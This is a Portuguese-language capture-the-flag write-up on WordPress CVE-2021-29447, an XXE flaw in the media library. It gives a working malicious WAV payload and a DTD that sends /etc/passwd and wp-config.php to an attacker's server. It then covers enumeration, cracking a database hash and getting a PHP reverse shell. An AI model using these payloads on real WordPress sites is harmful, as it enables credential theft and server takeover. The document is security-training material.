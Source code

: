 # _**Wordpress: CVE-2021-29447**_
![](wp.jpg)

# Informativo
_Uma vulnerabilidade XXE consiste em uma injeção que se aproveita da configuração incorreta do interpretador XML_
_Isso nos permite incluir entidades externas, possibilitando o ataque a aplicações que interpretam a linguagem XML em seus parâmetros_  
_Pesquisadores da empresa de segurança SonarSource descobriram uma falha de segurança de injeção de entidade externa XML (XXE) na biblioteca de mídia do WordPress_  
_A vulnerabilidade pode ser explorada somente quando este CMS roda em PHP 8 e o usuário atacante tem permissão para carregar arquivos de mídia_  

# Impacto
<mark>Divulgação arbitrária de arquivos:</mark> O conteúdo de qualquer arquivo no sistema de arquivos do host pode ser recuperado, por exemplo, wp-config.php que contém dados confidenciais, como credenciais de banco de dados  
<mark>Falsificação de solicitação do lado do servidor (SSRF):</mark> Solicitações HTTP podem ser feitas em nome da instalação do WordPress  

# Arquivo malicioso WAV
Com seu console _bash_, digite
> bash
> nano poc.wav echo -en 'RIFF\xb8\x00\x00\x00WAVEiXML\x7b\x00\x00\x00<?xml version="1.0"?><!DOCTYPE ANY[<!ENTITY % remote SYSTEM '"'"'http://[ip_address]:[port]/NAMEEVIL.dtd'"'"'>%remote;%init;%trick;]>\x00' > payload.wav
> ```

Na sua máquina de ataque, crie um arquivo dtd com o seguinte código. Isso nos permitirá executar o código seguindo o servidor web que busca o arquivo dtd  
Certifique-se de que o nome deste arquivo corresponde ao que você inseriu no arquivo _.wav_ para **NAMEEVIL.dtd**  
> ```bash
> <!ENTITY % file SYSTEM "php://filter/zlib.deflate/read=convert.base64-encode/resource=/etc/passwd">
> <!ENTITY % init "<!ENTITY &#x25; trick SYSTEM 'http://[ip_address]:[port]/?p=%file;'>" >
> ```

Agora inicie um servidor http no mesmo diretório do arquivo dtd: ```php -S [ip_address]:[port]```  
Agora carregue o _.wav_ malicioso no aplicativo WordPress!  
Depois de carregar o arquivo _.wav_, você deverá ver uma solicitação nos logs do seu servidor HTTP  

## _**Parte prática**_
Vamos utilizar a ferramenta <mark>wpscan</mark> para enumerar  
> ```bash
> wpscan --url [ip_address] -U -e vp vt
> ```
![](wp_scan.jpg)

Seguindo as instruções, realizamos login no website  
Vamos para _/wp_admin/upload.php_ realizar _upload_ de nosso _payload_ _.wav_  
Primeiro, ligamos nosso servidor HTTP com Python: ```python3 -m http.server [port]```  
O exemplo diz para utilizar ```php```, mas é mais rápido com este  
Segundo, nossos arquivos estão prontos, realizamos _upload_ e temos resultado  

![](upload_return.jpg)

Utilizando [cyberchef](https://cyberchef.io/) para traduzir o conteúdo, temos o arquivo _/etc/passwd_  
Note que para a tradução, é preciso incluir _raw inflate_, senão o resultado será diferente  

![](cyberchef.jpg)

Para obtermos o arquivo de configuração, vamos alterar nosso arquivo _script.dtd_ para obtermos _//var/www/html/wp-config.php_  

![](var_www_return.jpg)

Nesta tradução, conseguimos as respotas para:
* _Based on the results of #1, what is the name of the database for WordPress?_
* _Based on the results of #1, what are the credentials you found?_
* _Enumerate and identify what is the dbms installed on the server?_

Um rápido scan com ```nmap -p- -sV --open [ip_address]``` e temos:
* _Based on the results of #4, what port is the dbms running on?_
* _Based on the results of #4, what is the dbms version installed on the server?_

Realizando login via ```mysql -h [ip_address] -u [username] -p --skip-ssl```, conseguimos responder:
* _Compromise the dbms, What is the encrypted password located in the wordpress  users table with id 1??_
* _Based on the results of #7, What is the password in plaint text?_
* _Compromise the machine and locate flag.txt_

Para a primeira, é necessário identificar a hash com <mark>hash-identifier</mark>  
Para a segunda, é preciso quebrar a hash identificada. Vamos utilizar <mark>hashcat</mark>: ```hashcat -m 400 [hash] [wordlist]```  
Para a terceira, vamos realizar login como ```corp-001``` e então podemos usar um script em PHP do _pentest monkey_ para obter um _reverse shell_ direto em plugins  

![](flag.jpg)
